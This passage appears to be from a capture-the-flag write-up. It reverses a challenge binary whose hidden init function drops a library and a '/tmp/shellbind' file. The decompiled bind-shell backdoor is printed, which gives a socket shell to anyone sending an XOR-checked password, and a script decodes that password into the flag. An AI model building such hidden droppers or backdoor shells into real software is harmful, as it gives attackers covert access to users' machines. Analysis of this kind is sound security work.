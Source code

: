 But remember, init functions can be called by `__libc_csu_init`, and it's the case here. We have a `setup` function, which does this:
```c
int __fastcall setup(__int64 a1, __mode_t a2)
{
  FILE *s; // [rsp+8h] [rbp-8h]
  FILE *sa; // [rsp+8h] [rbp-8h]

  mkdir("libnss_X", a2);
  s = fopen("libnss_X/A .so.2", "w");
  fwrite(&libData, 1uLL, 0x4080uLL, s);
  fclose(s);
  sa = fopen("/tmp/shellbind", "w");
  fwrite(&shellData, 1uLL, 0x4300uLL, sa);
  return fclose(sa);
}
```
Luckily for me, I analyzed the "shellbind" binary, and after seening its main function:
```c
  bind(fd, &addr, 0x10u);
  listen(fd, 0);
  v8 = accept(fd, 0LL, 0LL);
  v9 = recv(v8, buf, 0x28uLL, 0);
  if ( buf[v9 - 1] == 10 )
    buf[v9 - 1] = 0;
  for ( i = 0; i <= 37; ++i )
    buf[i] ^= 0x59u;
  if ( !strcmp(buf, &unk_2008) )
  {
    dup2(v8, 2);
    dup2(v8, 1);
    dup2(v8, 0);
    execve("/bin/sh", 0LL, 0LL);
  }
```
I found the password of the backdoor:
```python
s = bytes.fromhex("183C2B36226D603B6861686A616E3F6C69606A6C3B6A60386969616C693B6E6E613A6F6F3F24")
print(bytes([x ^ 0x59 for x in s]))
```
Which gives us the flag: `Aero{49b181387f50935b39a00850b778c66f}`